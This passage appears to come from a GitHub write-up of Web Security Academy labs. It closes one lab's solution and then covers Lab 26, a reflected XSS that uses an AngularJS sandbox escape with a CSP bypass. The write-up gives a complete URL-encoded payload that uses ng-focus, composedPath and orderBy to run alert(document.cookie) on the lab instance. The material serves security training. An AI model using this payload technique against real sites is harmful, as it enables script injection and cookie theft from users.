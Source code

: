 Once this is submitted:

* Angular will parse and execute the `orderBy` expression.
* The sandbox will be escaped.
* `alert(1)` will fire.
* Lab will be marked as solved.

---



---

### LAB 26 - Reflected XSS with AngularJS sandbox escape and CSP

### Lab Description

![image](https://github.com/user-attachments/assets/1dfff8a4-6493-40a2-9b10-1b3fc4dc7673)

### Solution


#  AngularJS Sandbox Escape with CSP Bypass - `alert(document.cookie)`

This lab requires you to:

- **Bypass Content Security Policy (CSP)**
- **Escape AngularJS sandbox**
- **Trigger `alert(document.cookie)`**

---

## Goal

Perform a **Cross-Site Scripting (XSS)** attack via AngularJS **without using external scripts** and **without `$eval`**, while **bypassing CSP restrictions**.

---

##  Final Payload

Use the following script to inject your payload into the lab. Be sure to **replace `YOUR-LAB-ID`** with your actual lab instance ID:

```html
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
````

---

